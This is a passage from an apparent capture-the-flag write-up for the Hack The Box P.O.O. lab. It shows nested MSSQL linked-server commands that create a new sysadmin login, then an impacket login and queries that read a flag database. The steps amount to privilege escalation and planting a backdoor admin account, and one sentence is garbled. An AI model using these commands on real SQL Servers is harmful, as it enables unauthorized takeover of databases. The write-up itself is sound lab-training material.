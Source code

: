 To make our work easier, I shall add another `sa` user to make our work easier rather than keep on bouncing everything every time.

```bash
SQL (external_user  external_user@master)> EXECUTE('EXECUTE(''CREATE LOGIN df WITH PASSWORD = ''''victor_n00b'''';'') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
SQL (external_user  external_user@master)> EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''df'''', ''''sysadmin'''''') AT [COMPATIBILITY\POO_PUBLIC]') AT [COMPATIBILITY\POO_CONFIG]
SQL (external_user 
```

Lets try to connect to the server with our new admin account.

```bash
┌──(root㉿v1c70r)-[/home/…/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─# python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py df:victor_n00b@10.13.38.11
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed database context to 'master'.
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 88) 
[!] Press help for extra shell commands
SQL (df  dbo@master)>
```

we are in, lets get our DB flag now. As the new `sa` user,  I can now access another database `flag`  and to query a  I can now access another database in MSSQL, the syntax is `[server].[db].[schema].[table]`. Therefore, I can retrieve the flag using the following command as shown below.

```bash
SQL (df  dbo@master)> SELECT name FROM master..sysdatabases;
name         
----------   
master       

tempdb       

model        

msdb         

POO_PUBLIC   

flag         

SQL (df  dbo@master)> select table_schema from flag.INFORMATION_SCHEMA.TABLES;
table_schema   
------------   
dbo            

SQL (df  dbo@master)> select * from flag.dbo.flag
flag                                       
----------------------------------------   
b'POO{[REDACTED]}'   
```

